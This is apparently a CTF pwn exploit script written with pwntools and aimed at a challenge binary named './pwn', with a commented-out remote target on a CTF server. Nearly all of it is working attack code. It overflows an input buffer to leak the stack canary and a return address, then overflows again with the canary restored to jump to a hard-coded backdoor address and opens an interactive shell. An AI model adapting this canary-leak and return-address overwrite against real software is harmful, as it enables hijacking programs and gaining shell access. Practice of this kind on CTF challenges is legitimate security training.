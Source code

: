 ### exp

```bash
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'
#p=remote('node4.buuoj.cn',26967)
p=process('./pwn')
elf = ELF('./pwn')

def duan():
    gdb.attach(p)
    pause()

bss=elf.bss()+0x200

ru('Please input your name: ')
#duan()
#duan()
s('a'*0x19)
r(0x18+6)
canary=u64(r(8))-0x61
leak('canary ',canary)

ret=u64(r(6).ljust(8,'\x00'))#-0xb0
leak('ret ',ret)

backdoor=0x4012BB
ru('you like to leave(MAX 4): ')
sl('2')
sl('a'*(0xa0-0x8)+p64(canary+0xaa)+'a'*8+p64(0x4012c3))
sl('a'*0x78)

itr()
```
